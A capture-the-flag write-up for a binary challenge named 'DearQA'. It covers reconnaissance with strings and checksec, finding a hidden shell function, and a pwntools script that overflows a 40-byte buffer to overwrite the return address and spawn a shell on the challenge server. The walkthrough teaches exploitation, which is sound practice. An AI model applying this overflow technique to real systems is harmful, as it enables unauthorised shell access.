





# DearQA

## Gather Information (OSINT)

First, we want to gather as much information as possible from this binary.

1. **First clue:** the binary is not stripped, and it is an x86_64 ELF binary.



2. **Second clue:** running `strings` gives us some clues about this program. At some point, we might be able to interact with a shell, since we can see `/bin/bash`, and it also looks like the program wants us to input some kind of password.



3. **Third clue:** `checksec` tells us that ASLR is disabled and the stack canary is also disabled. This means the addresses should stay predictable, and without a canary protecting the stack, we might be able to overwrite some values and do some evil stuff >:)



## Program Control Flow (Reverse Engineering)

After you open the binary in Ghidra or IDA, you will see some interesting functions.

At first, `main` looks pretty normal, but look closely 👀. There is a function that appears to execute a shell. What is that doing there? Crazy.

The buffer also doesn't have a proper length check, so let's exploit this >:)





## Crafting the Exploit

Running:

```bash
objdump -d binary
```

will give us the address of the function we want to hijack.

You can also find the address yourself using GDB. I want you guys to explore that part yourselves because you will learn a lot more by doing it.

Anyway, we can connect to the challenge server with this code:

```python
from pwn import *

# Enter the correct information from your room or challenge
HOST = 'hostname'
PORT = 80085

# Connect to the server
r = remote(HOST, PORT)

# Craft an evil payload
target = 0xtarget

payload = b'A' * 40
payload += p64(target)

# Now send it >:)
r.sendlineafter(b': ', payload)
r.interactive()
```

The `40` bytes of `A`s fill the buffer and reach the saved return address.

After that, `p64(target)` overwrites the return address with the address of the function we want to execute.

When the vulnerable function returns, instead of continuing normally, execution jumps to our target function.

If everything works correctly...

## Congrats, you're a hacker :3
